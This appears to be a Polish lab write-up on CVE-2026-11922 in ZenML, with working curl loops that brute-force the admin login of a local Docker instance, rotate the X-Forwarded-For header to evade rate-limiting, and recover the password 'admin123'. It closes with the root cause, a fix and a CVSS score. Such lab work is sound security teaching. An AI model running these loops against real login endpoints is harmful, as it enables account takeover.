


# Zadanie 8.4 — ZenML: bruteforce admina z obejściem rate-limitu przez XFF (CVE-2026-11922, CWE-290)

> **Cel:** złamać hasło konta `admin` atakiem brute-force na `POST /api/v1/login`,
> omijając rate-limiting przez rotowanie nagłówka `X-Forwarded-For`.

| | |
|---|---|
| **Aplikacja** | `docker run -dp 5004:8080 docker.io/mazurkatarzyna/cve-2026-11922:latest` → `http://127.0.0.1:5004` |
| **Endpoint** | `POST /api/v1/login` (OAuth2 password grant, form-urlencoded) |
| **Podatność** | CVE-2026-11922 / CWE-290 — rate-limit identyfikuje klienta po XFF |
| **Słownik** | SecLists `2025-199_most_used_passwords.txt` (199 haseł) |
| **Znalezione** | `admin` / **`admin123`** |

## b) Rate-limit działa (bez XFF)
```bash
for i in $(seq 1 12); do
  curl -s -o /dev/null -w "proba $i -> %{http_code}\n" -X POST http://127.0.0.1:5004/api/v1/login \
    -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=wrong$i"
done
# 401 x6, potem 429 429 429... -> limit per IP (~6 prob)
```

## c) Rozpoznanie limitera + obejście (rotowany XFF)
```bash
for i in $(seq 1 12); do
  curl -s -o /dev/null -w "proba $i -> %{http_code}\n" -X POST http://127.0.0.1:5004/api/v1/login \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -H "X-Forwarded-For: 10.10.0.$i" -d "username=admin&password=wrong$i"
done
# wszystkie 401 (brak 429) -> limiter liczy po X-Forwarded-For, wiec rotacja omija limit
```

## d/e) Bruteforce z rotowanym XFF
```bash
wget -O pass2025.txt https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2025-199_most_used_passwords.txt

n=0
while read -r pw; do
  n=$((n+1))
  code=$(curl -s -o /dev/null -w "%{http_code}" -X POST http://127.0.0.1:5004/api/v1/login \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -H "X-Forwarded-For: 10.20.$((n/256)).$((n%256))" \
    -d "username=admin&password=$pw")
  echo "$code  $pw"
  [ "$code" = "200" ] && { echo ">>> ZNALEZIONO HASLO: $pw"; break; }
done < pass2025.txt
```

Wynik:
```
401  123456
401  admin
...
200  admin123
>>> ZNALEZIONO HASLO: admin123
```



Każda próba dostaje unikalny `X-Forwarded-For`, więc rate-limiter widzi „nowego
klienta" za każdym razem i `429` nigdy nie wskakuje — można przelecieć całą listę.

**Krok e:** logowanie przez UI (`http://127.0.0.1:5004`) jako `admin` / `admin123`
potwierdza poprawność hasła — dostęp do dashboardu ZenML.



## Na czym polega błąd
Rate-limiter logowania identyfikuje klienta po nagłówku `X-Forwarded-For`
(kontrolowanym przez klienta). Rotując XFF, atakujący resetuje licznik przy każdej
próbie i brute-force staje się nieograniczony.

## f) Jak naprawiono
Rate-limit powinien bazować na rzeczywistym IP połączenia (lub XFF tylko od
zaufanego proxy), a logowanie dodatkowo chronić (lockout per-konto, CAPTCHA,
opóźnienia, 2FA).

## g) CVSS (propozycja)
Obejście ochrony brute-force na logowaniu → przejęcie konta admina:
`CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` ≈ **8–9 (High)**
(do weryfikacji na kalkulatorze NVD).

## Pliki
- `pass2025.txt` — słownik (199 haseł 2025) — pobierany, pominięty w repo
- (bruteforce jako pętla curl powyżej)
